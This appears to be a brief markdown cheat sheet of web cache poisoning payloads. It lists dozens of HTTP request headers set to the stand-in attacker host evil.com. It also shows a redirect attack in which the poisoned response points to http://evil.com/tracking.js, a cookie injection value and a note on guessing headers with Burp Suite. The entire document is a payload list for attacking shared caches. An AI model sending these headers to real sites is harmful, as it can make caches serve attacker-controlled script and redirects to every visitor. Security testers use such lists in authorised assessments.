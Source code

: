 # Cache Poisoning

> Header Response: X-Cache: hit, Body Response: evil.com

## Header Inject
```http
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: nothttps
X-Forwarded-Server: evil.com
X-Host: evil.com
\: evil.com
User-Agent: evil.com
X-Original-Url: evil.com
X-Forwarded-Proto: evil.com
X-Original-URL: evil.com
X-Get-Cache-Key: evil.com
Accept-Version: evil.com
Acunetix-Header: evil.com
Api-Version: evil.com
Content-Type: evil.com
Fastly-Client-Ip: evil.com
Fastly-Ff: evil.com
Fastly-Host: evil.com
Fastly-Ssl: evil.com
Trailer: evil.com
X-Amz-Server-Side-Encryption: evil.com
X-forwarded-Prefix: evil.com
X-Original-Host: evil.com
Handle: evil.com
X-Rewrite-url: evil.com
Authorization: evil.com
X-Amz-website-Redirect-Location: evil.com
X-Http-Method-Override: evil.com
X-Forwarded-Proto: evil.com
Capitalized host header: evil.com
```
### Location Attack
```http
Header Request
X-Forwarded-Scheme: http
X-Forwarded-Prefix: evil.com
```
```http
Header Response
Location: http://evil.com/tracking.js
```


## Cookie Inject
```http
Cookie: feHost=something/evil.com
```

## Burp Suite Extension
Guess Headers!
Guess Eviriting!
